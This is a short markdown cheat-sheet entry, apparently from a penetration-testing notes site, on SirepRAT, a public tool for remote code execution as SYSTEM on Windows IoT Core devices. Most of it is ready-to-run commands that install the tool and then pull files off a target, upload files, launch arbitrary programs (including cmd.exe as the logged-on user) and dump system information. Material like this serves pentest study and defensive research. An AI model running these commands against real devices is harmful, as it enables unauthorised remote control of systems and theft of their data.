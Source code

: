 ```yaml
---
title: SirepRAT - RCE as SYSTEM on Windows IoT Core
author: amandaguglieri
draft: true
tags:
  - windows
  - rce
---
```

# SirepRAT - RCE as SYSTEM on Windows IoT Core

**SirepRAT** Features full RAT capabilities without the need of writing a real RAT malware on target.

[https://github.com/SafeBreach-Labs/SirepRAT#context)](https://github.com/SafeBreach-Labs/SirepRAT#context)

## Installation

```bash
# Download the repository
git clone https://github.com/SafeBreach-Labs/SirepRAT.git

# Run the installation
pip install -r requirements.txt
```


## Basic usage

## Usage

```
# Download File bash
python SirepRAT.py $ip GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v

# Upload File
python SirepRAT.py $ip PutFileOnDevice --remote_path "C:\Windows\System32\uploaded.txt" --data "Hello IoT world!"

# Run Arbitrary Program
python SirepRAT.py $ip LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"

# With arguments, impersonated as the currently logged on user:
python SirepRAT.py $ip LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"

# Try to run it without the as_logged_on_user flag to demonstrate the SYSTEM execution capability)
# Get System Information
python SirepRAT.py $ip GetSystemInformationFromDevice

```

#### [](https://github.com/SafeBreach-Labs/SirepRAT#get-file-information)Get File Information

```shell
python SirepRAT.py 192.168.3.17 GetFileInformationFromDevice --remote_path "C:\Windows\System32\ntoskrnl.exe"
```

#### [](https://github.com/SafeBreach-Labs/SirepRAT#see-help-for-full-details)See help for full details:

```shell
python SirepRAT.py --help
```

## [](https://github.com/SafeBreach-Labs/SirepRAT#author)Author

## Related Labs


